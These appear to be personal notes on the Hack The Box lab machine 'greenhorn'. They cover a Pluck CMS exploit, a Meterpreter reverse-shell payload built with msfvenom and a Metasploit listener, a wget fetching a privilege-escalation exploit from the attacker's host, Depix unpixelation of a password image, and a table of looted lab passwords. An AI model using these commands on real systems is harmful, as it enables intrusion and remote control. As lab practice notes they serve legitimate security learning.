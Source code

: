 ```yaml
---
cssclasses:
  - pen-red
  - page-grid
  - recolor-images
tags:
  - htb
  - linux
  - easy
  - pdf
---
```


NMAP Scan
```bash                                                                               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 15:41 EDT                                        
Nmap scan report for greenhorn (10.10.11.25)                                                              
Host is up (1.2s latency).                                                                                
                                                                                                          
PORT     STATE SERVICE VERSION                                                                            
3000/tcp open  ppp? 

```



## Exploit 

Login page
<a href="/login.php">admin</a> | powered by <a href="http://www.pluck-cms.org">pluck</a>

Version
Plunk 4.7.18

CVE 
https://www.exploit-db.com/exploits/51592
https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC


# Setup a C2
Reverse shell msfvenom
```shell
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.16.105 LPORT=4444 -f elf > shell-x64.elf
```

 

Setup listener
```shell
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
```



## Privilege Escalation
```shell
/etc/systemd/system/gitea.service is calling this writable executable: /usr/local/bin/gitea
/etc/systemd/system/multi-user.target.wants/gitea.service is calling this writable executable: /usr/local/bin/gitea
```

convert pdf to image
```shell
 pdfimages OpenVas.pdf  OpenVas.png -png
```

Depix tool to deobfuscate a image
```shell
[+] https://github.com/spipm/Depix
```

```shell
python depix.py \
-p ../OpenVas.png-000.png \
-s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
-o ../OutPutImg.png

```


### Possible Privilege Escalation Vector 
wget http://10.10.16.105:8000/CVE-2022-34918-LPE-PoC
https://github.com/merlinepedra/CVE-2022-34918-LPE-PoC

Dirty Pipe
https://github.com/n3rada/DirtyPipe


## Loot Information

| User   | Pwd                                              |
| ------ | ------------------------------------------------ |
| Junior | iloveyou1                                        |
| Root   | sidefromsidetheothersidesidefromsidetheotherside |


